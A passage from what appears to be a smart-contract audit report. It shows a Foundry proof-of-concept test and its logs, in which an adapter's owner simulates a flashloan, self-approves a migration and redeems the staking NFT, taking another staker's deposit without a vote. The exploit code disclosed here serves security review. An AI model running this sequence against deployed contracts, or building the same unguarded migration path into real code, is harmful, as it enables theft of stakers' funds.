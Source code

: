 The owner does not need to interact with the old adapter anymore since they control the NFT in the portal itself, which holds the staked funds.

- NOTE: All of the steps can be done in one transaction.

## Proof of Concept

```solidity
function test_PoC() public {
    // Alice stakes some tokens
    uint256 amount = 1e9;
    help_setAllowances();
    vm.startPrank(alice);
    principal_USDC.approve(address(adapter_USDC), amount);
    adapter_USDC.stake(amount);
    vm.stopPrank();

    // simulate taking flashloan by the owner
    address owner = adapter_USDC.OWNER();
    address richWallet = 0xd89b79f10523119d5B467d43EFe0A7710AE2d2AB;
    vm.prank(richWallet);
    principal_USDC.transfer(owner, 1e10);
    vm.startPrank(owner);
    console.log("balance  staked before attack : %e", 1e10);
    principal_USDC.approve(address(adapter_USDC), 1e10);
    adapter_USDC.stake(1e10);
    // propose an address to migrate
    adapter_USDC.proposeMigrationDestination(owner);
    // vote for this address
    adapter_USDC.acceptMigrationDestination();
    // reedem the nft from the portal
    portal_USDC.redeemNFTposition(1);
    // unstake
    (,, uint256 stakedBalance,,,,) = portal_USDC.getUpdateAccount(owner, 0, true);
    console.log("balance  after attack : %e", stakedBalance);
}
```

- Logs :

```sh
Logs:
  balance  staked before attack: 1e10
  balance  after attack: 1.1e10
```

- In this scenario, the owner steals all of Alice's funds without going through a voting process.

## Location of Affected Code

File: [src/AdapterV1.sol#L108](https://github.com/shieldify-security/SPP-Adapters/blob/335351b51a87ce3d20ea471d0f686776ce7d2393/src/AdapterV1.sol#L108)

File: [src/AdapterV1.sol#L117](https://github.com/shieldify-security/SPP-Adapters/blob/335351b51a87ce3d20ea471d0f686776ce7d2393/src/AdapterV1.sol#L117)
